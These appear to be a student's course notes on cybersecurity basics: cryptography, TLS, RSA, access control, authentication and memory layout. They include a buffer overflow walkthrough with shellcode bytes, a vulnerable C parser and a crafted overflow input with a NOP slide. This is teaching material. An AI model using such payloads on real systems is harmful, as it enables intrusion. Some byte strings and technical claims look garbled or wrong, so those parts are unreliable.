


# CS4293 Topics in Cybersecurity

## 1. Introduction

**Security**: The protection of a system, application, or protocol with a set of desired properties, against an adversary with specific capabilities.

C.I.A. Triad:

- **Confidentiality**: Avoid unauthorized disclosure of information.
    - Encryption, access control, physical security.
- **Integrity**: Avoid unauthorized alteration of information.
    - Backup, checksums, data correcting codes.
- **Availability**: Ensure timely and authorized access to information.
    - Redundancy, fault tolerance, disaster recovery.


Other security concepts:

- A.A.A.
    - **Authentication**: Verify the identity of a user.
        - Digital signature.
    - **Anoyomity**: Make records or transactions untraceable to individuals.
        - Aggregation, mixing, proxies, pseudonyms.
    - **Assurance**: How trust is provided and managed in computer systems.
        - Policies, protections.
- Threats and attacks
    - **Eavesdropping**: Unauthorized interception of information.
        - Intercept transmission over a communication channel.
    - **Alteration**: Unauthorized modification of information.
        - Modify data in transit, MITM attack.
    - **Denial of Service (DoS)**: Interrupt or degrade service that prevents legit users from accessing the service.
        - Email bombing, SYN flooding.

## 2. Cryptography

Cryptography is the science of **encrypting** and **decrypting** information to avoid unauthorized access.

### Basic Concepts

Alice and Bob is communicating through a channel.Channel is insecure, Eve can eavesdrop.

Alice wants to send a message to Bob confidentially. So, Alice encrypts the message with a key, and sends the encrypted message to Bob. Bob decrypts the message with the same key.

Denote $M$ as the message (plaintext), $C$ as the ciphertext, and $K$ as the key.

Then, the encryption function is $C = E(K, M)$, and the decryption function is $M = D(K, C)$. The encryption and decryption functions are inverses of each other.

The Crypto Threat Model:

- The security of a cryptosystem
    - only authorized parties can encrypt and decrypt messages.
    - an adversary with specific capabilities, that even with unlimited computational power, and knowledge of the following:
        - the set of possible plaintexts and ciphertexts.
        - the correspondence between encryption and decryption keys.
        - the encryption and decryption algorithms.
    - ... cannot decrypt a ciphertext without the key.

Note: what is irrelevant to the security of a cryptosystem?
    - the encrypt keys and decrypt keys to use.
        - A cryptosystem should be secure even if **everything about the system, except the key, is public knowledge**.
        - If key is known, nothing is secure.
    - the RNG used to generate keys.
        - This is purely implementation detail. Use a secure RNG.

### Types of Cryptography

#### Symmetric Cryptography

In symmetric cryptography, the same key is used for encryption and decryption.

Examples: DES, AES.

Symmetric cryptography is computationally efficient, but the key distribution is a problem.

#### Asymmetric Cryptography

In asymmetric cryptography, different keys are used for encryption and decryption.

Each party has a pair of keys: a public key and a private key. The public key is shared in public, while the private key is kept secret.

When Alice wants to send a message to Bob, Alice encrypts the message with **Bob's public key**, and sends the encrypted message to Bob. Bob decrypts the message with **Bob's private key**.

$C = E(PK_B, M)$, $M = D(SK_B, C)$

Bob can also sign a message with his private key, and Alice can verify the signature with Bob's public key. This is called **digital signature**.

Examples: RSA, ECC.

#### Digital Signature

**Digital signature** is a cryptographic scheme that allows a party to sign a message, and another party to verify the signature.

**Hash function**: A function that maps an input of arbitrary length to an output of fixed length.

- Hash is **one-way**: Given $H(x)$, it is computationally infeasible to find $x$.
- Hash is **collision-resistant**: It is computationally infeasible to find two different inputs that hash to the same output.
- Examples: SHA-256 (256-bit), MD5 (128-bit).
- Hash results are usually represented in hexadecimal, that is, 4 bits per character.
- Hash is NOT encryption. Encryption is reversible, while hash is not.

**Digital Certificate**: A digital certificate is a digital document that certifies the ownership of a public key by the named subject of the certificate. 

**Public Key Infrastructure (PKI)**: A set of roles, policies, and procedures needed to create, manage, distribute, use, store, and revoke digital certificates.

**Certificate Authority (CA)** issues digital certificates. CA is organized in a hierarchy.

### Attacks

Alice and Bob are communicating through an insecure channel. The message is symmetrically encrypted with a key $K$. Eve can eavesdrop.

Goal of Eve: Recover the plaintext message without knowing the key.

There are multiple types of attacks:

- **Ciphertext-only attack**: Only the ciphertext is known.
- **Known-plaintext attack**: Some plaintext-ciphertext pairs are known.
- **Chosen-plaintext attack (CPA)**: The attacker can arbitrarily choose plaintexts and obtain the corresponding ciphertexts.
- **Chosen-ciphertext attack (CCA)**: The attacker can obtain the decryption of chosen ciphertexts.

**Cipher**: A cipher is an algorithm for performing encryption or decryption.

#### Substitution Cipher

**Substitution cipher**: Each letter in the plaintext is replaced by another letter. Therefore, by recovering the mapping, the plaintext can be recovered.
- Simplest example: ROT13, Caesar cipher.
- Attack: **Frequency analysis**. Letters in English text have different frequencies.
- **One-time pad**: A substitution cipher that is (theoretically) unbreakable if used correctly. The key must be as long as the message, and the key must be random and never reused. However, it is not practical.

#### Stream Cipher and Block Cipher

**Stream cipher**: A stream cipher generates a pseudo-random key stream, and XORs the key stream with the plaintext to generate the ciphertext.
1. A $m$-bit message and $k$-bit key is provided.
2. PRBG (Pseudo-Random Bit Generator) generates a $m$-bit key stream based on the $k$-bit key.
3. The key stream is XORed with the message to generate the ciphertext.
- Example: RC4.

Why XOR?

- XOR is its own inverse. $A \oplus B = C$, $C \oplus B = A$. This makes XOR simple and efficient.

**Block cipher**: A block cipher encrypts a block of plaintext to a block of ciphertext.
1. A $n$-bit plaintext is provided.
2. The plaintext is divided into $b$-bit blocks, with the last block padded if necessary.
3. Each block is encrypted with the key to generate the ciphertext.
4. The ciphertext blocks are concatenated to form the final ciphertext.
- Example: DES, AES.

DES is a 64-bit block cipher with a 56-bit key. AES is a 128-bit block cipher with a 128-bit, 192-bit, or 256-bit key, and repeats the block cipher process multiple times.

Modes of block cipher operations:
- **Electronic Codebook (ECB)**: Each block is encrypted independently. Identical plaintext blocks are encrypted to identical ciphertext blocks.
    - Encrypt: $C_i = E_K(M_i)$
    - Decrypt: $M_i = D_K(C_i)$
    - Vulnerable to pattern analysis. If the content is much larger than the block size, patterns can be identified.
- **Cipher Block Chaining (CBC)**: Each block is XORed with the previous ciphertext block before encryption.
    - Encrypt: $C_1 = E_K(M_1 \oplus IV), C_i = E_K(M_i \oplus C_{i-1})$
    - Decrypt: $M_1 = D_K(C_1) \oplus IV, M_i = D_K(C_i) \oplus C_{i-1}$
    - Requires an initialization vector (IV). The IV should be random and unpredictable.

Modes of stream cipher operations:
- **Counter (CTR)**: Each block is encrypted with a counter value.
    - Encrypt: $C_i = E_K(\text{Counter}_i) \oplus M_i$
    - Decrypt: $M_i = E_K(\text{Counter}_i) \oplus C_i$
    - $\text{Counter}_i$ is incremented for each block. For example, $\text{Counter}_i = IV + i$.
- **Cipher Feedback (CFB)**: The ciphertext is XORed with the plaintext to generate the next ciphertext block.
    - Encrypt: $C_1 = E_K(IV) \oplus M_1, C_i = E_K(C_{i-1}) \oplus M_i$
    - Decrypt: $M_1 = E_K(IV) \oplus C_1, M_i = E_K(C_{i-1}) \oplus C_i$
- **Output Feedback (OFB)**: The key stream is generated independently of the plaintext.
    - Pre-compute $\Omega_0 = IV, \Omega_i = E_K(\Omega_{i-1})$
    - Encrypt: $C_i = \Omega_i \oplus M_i$
    - Decrypt: $M_i = \Omega_i \oplus C_i$
    - Effectively, OFB is encrypting a irrelevant message with the key stream, and XORing the key stream with the plaintext.

| Feature | Block Cipher | Stream Cipher |
| --- |  --- | --- |
| Processing Unit | Fixed-size blocks | Bit-by-bit |
| Padding | Required | Not required |
| Key used | Identical key for all blocks <br> length = block size | A keystream based on the key <br> length = message length |
| Reverse operation | **Encrypt/Decrypt** | **XOR with key stream** |
| Latency | Higher | Lower |
| Security | More secure | Less secure |
| Use case | Bulk encryption | Real-time encryption |

Note the reverse operation is the outermost operation, that is, the last step in encryption and the first step in decryption.

#### Cryptographic Hash Function

A cryptographic has h function satisfies the following properties:

- **Preimage resistance** (one-way): Given $H(x)$, it is computationally infeasible to find $x$.
- **Second preimage resistance** (weak collision resistance): Given $x$, it is computationally infeasible to find $x'$ such that $H(x) = H(x')$.
- **Collision resistance** (strong collision resistance): It is computationally infeasible to find any two different inputs $x, x'$ such that $H(x) = H(x')$.

> Bonus question 1: What's the difference between second preimage resistance and collision resistance? Why is the latter considered stronger?

> **Strong collision resistance implies second preimage resistance**: If it is difficult to find a pair of collision input $x, x'$ in the whole input space, then it is also difficult to find a second preimage $x'$ for a given input $x$ in the whole input space.  
> Assume the hash output has $n$ bits. The probability of a collision is $2^{-n}$, and the time to find a strong collision is $O(2^{n/2})$.

It is recommended to use >= 256-bit hash functions.

- MD5: 128-bit hash function. Vulnerable to collision attacks
- SHA-0, SHA-1: 160-bit
- SHA-2: multiple variants, including SHA-256 (256-bit), SHA-512 (512-bit)
- SHA-3: uses Keccak as the underlying function. very different from predecessors

**Message Authentication Code (MAC)**: A MAC is a short piece of information used to authenticate a message and to provide integrity and authenticity assurances on the message. (i.e. to prove the data is correctly and securely transmitted)

Denote $M$ as the message, $K$ as the key.

- Sender: $T = MAC_K(M)$. Send $M$ and $T$.
- Receiver receives $M'$ and $T$. Compute $T' = MAC_K(M')$. If $T = T'$, then the message is authentic.

When MAC is used during encryption, it is called **Encrypt-then-MAC**.

- **MAC-then-Encrypt**: Compute the MAC on the plaintext, then encrypt the plaintext and MAC together. This is vulnerable to padding oracle attacks.
- **Encrypt-then-MAC**: Encrypt the message, then compute the MAC on the ciphertext. This is the most secure way to use MAC.

| Method | Representation |
| --- | --- |
| MAC-then-Encrypt | $T = \text{MAC}(M), C = E_K (M + T)$ |
| Encrypt-then-MAC | $C_1 = E_K (M), C = C_1 + \text{MAC}(C_1)$ |

where $+$ denotes concatenation.

> Bonus question 2: What are some of the advantages of MAC-then-Encrypt over Encrypt-then-MAC?

> MAC-then-Encrypt:  
> - Efficiency: if intermediate processing is needed, to verify the integrity of the message, only the MAC part needs to be decrypted. No need to decrypt the entire message.  
> - Compatibility with legacy systems: it is easier to implement in systems that already use MACs, as it does not require changes to the encryption algorithm.  
>  
> Encrypt-then-MAC:  
> - Better security: prevents forgery attacks on the ciphertext. Since the MAC is computed after encryption, even if the attacker tampers with the ciphertext, it is difficult to generate a correct MAC value.  
> - Semantic security: the encryption operation is performed first, ensuring the semantic security of the message, i.e. the ciphertext does not leak any meaningful information about the plaintext, even if the attacker knows the format or part of the content of the message.

#### Public Key Cryptography

Application of public key cryptography:

- **Encryption/Decryption**
- **Key exchange**: To set up a session key for symmetric encryption.
- **Digital signature**

Denote $PK_A, SK_A, PK_C, SK_C$ as Alice and CA's public and private keys, respectively.

Denote $M$ as the message, $C$ as the ciphertext, $S$ as the signature.

In two-party communication:

1. Alice hashes the message: $h = \text{Hash}(M)$.
2. Alice signs the hash: $S = E(SK_A, h)$. 
3. Alice sends $M$ and $S$.
4. Bob receives $M'$ and $S$. Bob computes $h' = \text{Hash}(M')$.
6. Bob verifies the signature: if $h' = D(PK_A, S) \equiv h$, then the signature is valid.

In a public key infrastructure:

1. Alice requests a certificate from CA: $Cert_A = E(SK_C, PK_A)$.
    - CA signs the certificate with CA's private key, so it can be retrieved with CA's public key.
2. Alice hashes the message: $h = \text{Hash}(M)$.
3. Alice signs the hash: $S = E(SK_A, h)$. 
4. Alice sends $M$, $S$, and $Cert_A$.
5. Bob receives $M'$, $S$, and $Cert_A$. Bob computes $h' = \text{Hash}(M')$.
6. Bob verifies the certificate: if $PK_A = D(PK_C, Cert_A)$ passes, then the certificate is valid, and Bob knows Alice's public key.
7. Bob verifies the signature: if $h' = D(PK_A, S) \equiv h$, then the signature is valid.

If both the signature and the certificate are valid, Bob can trust that:

- The message is from Alice (authentic).
- The message has not been altered (integrity).
- The above two points are guaranteed by the CA.

#### Detailed Example: AES

We take AES-128 as an example. AES-128 performs 10 rounds of encryption, with 128-bit key, 128-bit block size.

- Initial state: $X_0 = P \oplus K$ where $P$ is the plaintext, $K$ is the key.
- Round $i$ receives $X_{i-1}$ and outputs $X_i$.
- The ciphertext is $C = X_{10}$.

Each round is built from four operations:

- subBytes: Substitute each byte with another byte from a lookup table, i.e. 1-to-1 mapping.
- shiftRows: Shift each row of the state by a certain offset.
- mixColumns: Mix the columns of the state.
- addRoundKey: XOR the state with the round key.

## 3. Access Control

### Access Control Models

Access control regulates who can access what resources by 2 mechanisms:

- **Authentication**: Verify the credentials of a user/other system are valid.
- **Authorization**: Grant what resources and which operations a user/other system can access.

#### Access Control Matrix

A idealized model of access control presented as a matrix:

- Rows for subjects (users, processes).
- Columns for objects (resources).
- Entries for permissions (read, write, execute).

#### Access Control List (ACL)

Each file's ACL stores the column of that file in the access control matrix.

- Each object has an ACL.
- Each ACL contains a list of subjects and their permissions.

ACL vs Capabilities:

- ACL associates list with each object, and check user/group against the list.
    - ACL relies on **authentication**: Who is the user?
- Capabilities is unforgeable ticket
    - Managed by OS and can be passed from process to process.
    - **Reference monitor** checks if the capability is valid. It does not need to know the user.

Example: Alice has a safe box in a bank. Bob now wants to access it.

- ACL: Bob needs Alice to come to the bank in person, who is the only authenticated user.
- Capabilities: Bob can request the ticket from Alice, and present it to the bank.
    - Bank does not authenticate the person nor store Capability records. Bank only checks if the ticket is valid.

#### Role-Based Access Control (RBAC)

**Role** is a set of users.

**Role hierarchy**: Each role gets permissions of roles below it.

In UNIX, users are assigned to groups, and groups are assigned to files.

```
$ ls -l
-rw-r--r-- 1 alice alice 0 Jan 1 00:00 file.txt
```

where:

- `-rw-r--r--`: permissions (user group others). Can be set with `sudo chmod 644 file.txt`.
- `1`: number of hard links. If 1, it is a regular file. If 2+, it is a directory.
- `alice`: owner.
- `alice`: group.
- `0`: size in bytes. Use `-h` for human-readable format.
- `Jan 1 00:00`: last modified time.
- `file.txt`: name.

For users that are not `alice` or in the `alice` group, they are considered `others`. The permissions are `r` (read), `w` (write), `x` (execute).

### Authentication

Two steps:

- **Identification**: User presents an identifier (username).
- **Authentication**: User presents or generates authentication factors (passwords, 2FA) to prove the identity.

#### Passwords

- $PWD$: The finite set of all possible passwords. A password must be within the desired length and consists of legal characters, so the set is finite.
- $G=\text{KeyGen}$: A key generation algorithm that generates a key $K$.

In the basic model:

- User provides password as $sk$.
- Server checks if $sk = vk$. If yes, grant access.

Issue: plaintext password is stored on the server. If the server is compromised, all passwords are leaked.

We use hash function $H$ to store the password:

- User provides password as $sk$. Server stores $vk = H(sk)$.
- Server checks if $H(sk) = vk$. If yes, grant access.

Issue: hash function is deterministic. If two users have the same password, they will have the same hash.

We use salt to prevent hash collision:

- User provides password as $sk$. 
- Server generates a random salt $s$. Server stores $s$ and $vk = H(sk, s)$.
- Server checks if $H(sk, s) = vk$. If yes, grant access.

Further defense:

- Slow down the hash function. Use a slow hash function, such as bcrypt, scrypt, or Argon2.
    - Not noticeable for user, but slows down brute-force attacks.
- Introduce a short random string (pepper) to the password before hashing.
    - Server stores $vk = H(sk, s, r)$ where $r$ is a short random string (e.g. 8 bit) that is NOT stored on the server.
    - When user logs in, all possible $r$ are tried to check if $H(sk, s, r) = vk$.

#### Password Attacks

As people tend to use simple passwords, attackers can use **dictionary attacks** to brute-force the password.

Time complexity of dictionary attack: $O(|Dict|)$.

**Batch offline dictionary attack**: Attacker has a list of hashed passwords, and tries to find the plaintext password.

- Build a list $L$ containing $w, H(w)$ for all $w \in Dict$.
- Find the intersection of $L$ and the password database $F$.

Total time complexity: $O(|Dict| + |F|)$.

Salting prevents batch offline dictionary attacks.

#### Two-Factor Authentication (2FA)

Two factors:

- **Knowledge factor**: Something you know (password).
- **Possession factor**: Something you have (smartphone, token).

Usually, 2FA is implemented as:

- Login with password.
- System sends a one-time code to the user's phone.
- User enters the code to complete the login.

It is important that the OTP is not predictable, used once, and has a short lifetime.

**Time-based One-Time Password (TOTP)**: A TOTP is an algorithm that computes a one-time password from a shared secret key and the current time.

This enables 2FA without the need for a network connection.

Process:

- User scans a QR code to get the shared secret key $s$ stored in the authenticator app.
- At time $T$, the user tries to log in. The lifetime of the OTP is $t = 30$ seconds.
- The authenticator app computes $H(s, \lfloor T/t \rfloor)$ to generate the OTP.
- The server computes $H(s, \lfloor T/t \rfloor)$ to verify the OTP.

Therefore, as long as the clock is synchronized, the OTP is valid.

However, it should be noted that TOTP is vulnerable to MITM attacks. (e.g. if the QR code is intercepted over an insecure channel) If your shared secret is leaked, the attacker can generate the OTP.

#### Biometric Authentication

Biometric authentication uses physical characteristics to authenticate users.

The most used biometric authentication is fingerprint recognition.

Recently, face recognition and voice recognition are also used.

Requirements for biometric authentication:

- **Universality**: Almost every person should have the characteristic.
- **Distinctiveness**: Each person should have noticeable differences in the characteristic.
- **Permanence**: The characteristic should not change significantly over time.
- **Collectability**: The characteristic should be effectively determined and quantified (e.g. details in a fingerprint can be easily collected and compared).

Pros: No memorization required, hard to forge.

Cons: Privacy concerns, not easily revocable (if your fingerprint is leaked, you cannot change it, but only stop using it).

#### Radio Frequency Identification (RFID)

**RFID** is a technology that uses radio waves to identify objects.

- RFID tag is an integrated circuit (IC) in the object stores information.
- It contains a coiled antenna to transmit and receive radio waves.

There are two types of RFID tags:

- **Passive RFID**: No internal power source. Powered by the reader's radio waves.
- **Active RFID**: Contains a battery. Can transmit data over longer distances.

E-passport has a RFID tag that stored the owner's information, as well as a digital facial image.

### Network Access Control

#### SSL/TLS

**SSL/TLS** (Secure Sockets Layer/Transport Layer Security) is a protocol that provides secure communication over a computer network.

Recall that we use asymmetric cryptography for key exchange, and symmetric cryptography for subsequent communication.

SSL/TLS Handshake:

1. Client sends a **ClientHello** message to the server, containing the client's supported cipher suites and SSL/TLS version.
2. Server sends a **ServerHello** message to the client, containing the server's chosen cipher suite and SSL/TLS version.
3. Client session key pre-generation: Client generates a pre-master secret, encrypts it with the server's PK, and sends it to the server.
4. Server session key generation: Server decrypts the pre-master secret with its SK, and generates the session key.
5. Communication: Both client and server now have the session key, and can communicate securely.

Details:

1. [Client] 
    - $M_1=\text{ClientHello}(V_c, R_c, C_c)$
        - $V_c$: Client's supported SSL/TLS version (e.g. SSLv3, TLSv1.2)
        - $R_c$: 32-byte random number
        - $C_c$: Client's supported cipher suites (e.g. RSA, DHE, ECDHE)
2. [Server]
    - $M_2=\text{ServerHello}(V_s, R_s, C_s)$
        - $V_s$: Server's chosen SSL/TLS version
        - $C_s$: Server's chosen cipher suite
    - $M_3=\text{Certificate}(\text{Chain}_s)$
        - $\text{Chain}_s = \text{Sign}(SK_{CA}, PK_s)$
    - $M_4=\text{ServerKeyExchange}(\text{DH}_s)$ (only for DHE/ECDHE)
        - $\text{DH}_s = E(PK_s, g^x \mod p)$
    - $M_5=\text{ServerHelloDone}()$
3. [Client]
    - $M_6=\text{ClientKeyExchange}(\text{PM})$
        - $\text{PM} = E(PK_s, g^x \mod p)$: Pre-master secret
        - $K_\text{session} = \text{PRF}(\text{PM}, R_c + R_s)$: Master secret, session key
    - $M_7=\text{ChangeCipherSpec}()$
    - $M_8=\text{ClientFinished}(\text{HMAC}(K_\text{session}, \text{hash}(M_1, M_2, ...)))$
        - a hash of all previous messages
4. [Server]
    - $M_9=\text{ServerFinished}(\text{HMAC}(K_\text{session}, \text{hash}(M_1, M_2, ...)))$

#### RSA

In the SSL/TLS handshake, RSA is used in pre-master secret exchange.

RSA is a **public key cryptosystem** that is widely used for secure data transmission. It is based on the difficulty of factoring the product of two large prime numbers.

Mathematical background: Euler's theorem

$Z_n$ is the set of integers modulo $n$, i.e. $Z_n = \{0, 1, 2, ..., n-1\}$.

$Z_n^*$ is the set of integers in $Z_n$ that are coprime to $n$. If $n$ is prime, $Z_n^* = Z_n \setminus \{0\}$, so $\phi(n) = n-1$.

The Euler's totient function $\phi(n)$ is the number of positive integers less than $n$ that are coprime to $n$, i.e. cardinality of $Z_n^*$.

**Euler's theorem**: For any $a \in Z_n^*$, $a^{\phi(n)} \equiv 1 \pmod{n}$.

---

RSA uses exponentiation of integers modulo a prime.

- Encryption: $C = M^e \mod n$
- Decryption: $M = C^d \mod n = (M^e)^d \mod n$ ($d = e^{-1} \mod \phi(n)$)
- Public key: $PK = (e, n)$
- Private key: $SK = (d, n)$
- Everyone knows $n$, $e$, but only the owner knows $d$.

A running example with [calculator](https://www.cs.drexel.edu/~popyack/IntroCS/HW/RSAWorksheet.html):

1. Compute $N$ as the product of two prime numbers $p$ and $q$.
    - Choose $p = 47737, q =18229$.
    - $N = pq = 870197773$.
    - $r = (p-1)(q-1) = 870131808$.
2. Find $K$ such that $K \equiv 1 \pmod{r}$ and can be factored into $e$ and $d$.
    - Choose $K = 25233822433$. 
    - Factors of $K$: $K = 47 \times 239 \times 313 \times7177$.
    - Choose $e = 337319, d = 74807$.
    - It should be guaranteed that $ed \equiv 1 \pmod{r}$, $e$ is coprime to $r$, and $d$ is coprime to $r$.
3. Use $e$ and $d$ to encrypt and decrypt a message.
    - Represent the message in numeric form. Let $M = 123456$.
    - Encrypt: $C = M^e \mod N = (123456^{337319}) \mod 870197773 = 18989202$.
    - Decrypt: $M = C^d \mod N = (18989202^{74807}) \mod 870197773 = 123456$.

---

RSA is secure because:

- **Factorization**: It is computationally infeasible to factorize large $N$, which is a 2048-bit number ($2^{2048} \approx 10^{617}$).
- **Discrete logarithm**: It is computationally infeasible to compute $d$ from $e$ and $N$.

RSA is vulnerable to timing attacks. The time taken to compute the decryption can leak information about the key.

## 4. Software Security

### Operating System

A computer model:

- **Hardware**: CPU, RAM, storage, I/O devices.
- **Operating System**: Manages hardware resources, provides services to applications.

OS provides the interface between users and hardware. It manages CPU, memory, I/O devices, network interfaces, multitasking.

**Multitasking**: Give each process a time slice to run. The CPU is running so fast that it appears to run multiple processes simultaneously.

**Kernel**: The core, low-level part of the OS. Associated down with hardware (CPU, memory, I/O devices, drivers), and up with OS services (file system, network stack).

**Input/Output**: Input/output hardwares (e.g. keyboard, mouse, display, printer), as well as connections to other devices (e.g. WiFi interface, USB port).

- Each device is represented in OS using a **device driver**.
- Device driver encapsulates the device's low-level, hardware-specific operations as high-level, standard API calls.
- OS does the heavy lifting (e.g. scheduling, memory management) and provides a simple interface to applications.

**System Calls**: Interface between applications and OS. Applications request services from OS through system calls.

- Contained in high-level libraries (e.g. C standard library, libc) that abstract the system calls, so applications do not need to know the details of the OS.
- UNIX system calls: `open`, `read`, `write`, `close`, `fork`, `exec`, `exit`.

**Process**: An instance of program that is executing.

- The full contents of a program are stored on the disk as an **executable file**.
- When a program is executed, the OS loads the program into memory, and creates a process; so that multiple instances of the same program can run simultaneously.
- Each process has its own memory space, and cannot access the memory of other processes.

**Process ID**: Each process is identified by a unique process ID (PID).

**Memory Management**: OS manages memory allocation and deallocation.

- The memory for each process consists of multiple segments: `code` (instructions), `data` (variables), `stack` (function calls), `heap` (dynamic memory).

### Control Hijacking Attack: Buffer Overflow

An **exploit** is any input (i.e. a piece of software, an argument, or sequence of commands) that takes advantage of a bug or vulnerability to cause unintended behavior.

Attacker's goal: Take over target machine and execute arbitrary code by hijacking the control flow. (The target machine can be server or client.)

#### Linux Memory Layout and Stack Frame (32-bit)


Causes of Buffer Overflow:

e.g. A too long input string is copied into a buffer that is too small.

```c
void foo(char* str) {
    char buffer[128];
    strcpy(buffer, str);
}
```

- `char buffer[128]` is allocated in the local variables section of the stack frame. 
- Argument `str` is copied into `buffer` using `strcpy`, which does not check the length of the input string.
- If the input string is longer than 128 bytes, it will overflow the buffer and overwrite the exception handler, SF pointer and return address (from low to high).

Another example:

```c
int main(int argc, char *argv[ ]) {
    char var1[15];
    char command[20];
    strcpy(command, "whois ");
    strcat(command, argv[1]);
    strcpy(var1, argv[1]);
    printf(var1);
    system(command);
}  
```


If `argv[1]` is too long, the exceeding part of `command` will overwrites the beginning of `var1`.

#### Return Address Overwrite

Now we discuss how to exploit buffer overflow. By overwriting the return address, we can redirect the control flow to execute arbitrary code.

e.g. We write a shellcode that executes `/bin/sh`.

```c
// shellcode.c
void main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Disassemble the shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x88\x46\x46\x0c\x0b\x89\xf3\x8d\x4e\x08\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\xe8\xdc\xff\xff\xff/bin/sh
```

Now we attack the vulnerable program:

```c
void copy_lower(char *in, char *out) {
    int i = 0;
    while (in[i] != '\0' && in[i] != '\n') {
        out[i] = tolower(in[i]);
        i++;
    }
    out[i] = '\0';
}
int parse(FILE *fp) {
    char buf[5], *url, cmd[128];
    fread(cmd, 1, 256, fp); // fread reads up to 256 bytes from fp
    int header_ok = 0;
    // ...
    url = cmd + 4;
    copy_lower(url, buf);
    printf("URL: %s\n", buf);
}
```

And create the following input file:

```
GET
AAAAAAAAAAAAAAAAAAA\xeb\x1f\x5e\x89\x76\x08\x88\x46\x46\x0c\x0b\x89\xf3\x8d\x4e\x08\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\xe8\xdc\xff\xff\xff/bin/sh
```

When the program reads the input file, it will execute the shellcode.


#### NOP Slide

Another question is how to find the exact address of the shellcode. We can use a NOP slide.

Insert many, many NOP instructions before the shellcode. When the return address points to the NOP slide, the control flow will slide down to the shellcode.

NOP (`\x90`) is an instruction that does nothing. When NOP is executed, the control flow continues to the next instruction.

```
AAAAAAAAAAAAAAAAAAA\x64\xf7\xff\xff\x90\x90\x90\x90...\xff\xff/bin/sh
```

Now starting from `fp` (`0xbffff760`), many bytes of NOP instructions are inserted before the shellcode.

#### libc Function Calls

Many libc functions are vulnerable to buffer overflow.

```c
int strcpy(char *dest, const char *src);
// copies the string pointed to by src to dest. Stops when \0 is encountered in src.
int strcat(char *dest, const char *src);
// appends the string pointed to by src to the end of the string pointed to by dest. Stops when \0 is encountered in src.
int gets(char *s);
// reads a line from stdin into the buffer pointed to by s. Stops when \n is encountered.
```

"Safe" alternatives can be misleading. `int strncpy(char *dest, const char *src, size_t n)` terminates if a total of `n` characters are copied, but if `src` is longer than `n`, the string is not null-terminated. Therefore you have to manually add the null terminator.

`int strcpy_s(char *dest, size_t destsz, const char *src)` ensures proper null-termination and bounds checking, however it is a Windows CRT function.

`int fgets(char *s, int size, FILE *stream)` reads at most `size-1` characters from `stream` into `s`, and appends a null terminator. It stops when a newline is encountered, or when `size-1` characters are read.

---

**Windows SEH attack** is a buffer overflow attack that exploits the Structured Exception Handler (SEH) in Windows. The buffer is overflowed to overwrite the SEH record, and the exception handler is redirected to execute arbitrary code.

#### Stack vs. Heap

**Stack is allocated by compiler**: Local variables, function arguments, return addresses, saved registers, stack frame pointers.

**Heap is allocated by programmer**: Dynamic memory allocation, `malloc`, `free`, `new`, `delete`.

```c
int main() {
    int b;
    char *p2; 
    char *p3 = "123456";
    static int c = 0;
    p2 = (char *)malloc(20);
    strcpy(p2, "123456");
}
```

- `int b` is a local variable (STACK).
- `char *p2` is a pointer (STACK). Understand that while the pointed-to memory can be anywhere, the pointer itself, a 32-bit or 64-bit integer, is stored on the stack.
- `char *p3` is also a pointer (STACK), but the pointed-to `"123456"` is stored in the static data segment (DATA).
- `static int c` is a static variable (DATA).
- `(char *)malloc(20)` allocates 20 bytes of memory on the heap (HEAP), then `p2` points to it.
- `strcpy(p2, "123456")`: `"123456"` is stored in the static data segment, and copied to the heap memory pointed by `p2`.



By such it is possible to corrupting function heapers attack:

```cpp
class T {
    virtual void func1 (void);
    virtual void func2 (void);
    virtual void func3 (void);
}
```

In any object of T, there is a pointer `ptr` that points to the virtual function table (vtable).

```
+-----------------+ high
| T.data          | [object data]
| T.ptr           | [vtable pointer]
+-----------------+
| FP3             | [vtable]
| FP2             |
| FP1             |
| func1.data      |
| func1.buf[256]  |
+-----------------+ low
```

Now if `buf[256]` is overwritten with `NOP slide + shellcode`, executing `func1` will slide down to the shellcode.

### More Control Hijacking

#### General Control Hijacking


- **Overwrite**: Modify a control flow pointer to point to desired code.
- **Activate**: Find a way to activate the altered control flow pointer.

| Desired Code | Control Flow Pointer | Activation |
| --- | --- | --- |
| Stack | ret addr | ret func |
| Stack | frame ptr | ret func |
| Stack | func ptr | ref & call fp |
| Stack | SEH | raise exception |
| Heap | vtable (func ptr) | ref & call fp |

#### Integer Overflow

On a 32-bit system, the maximum value of an integer is $2^{31}-1$.

```c
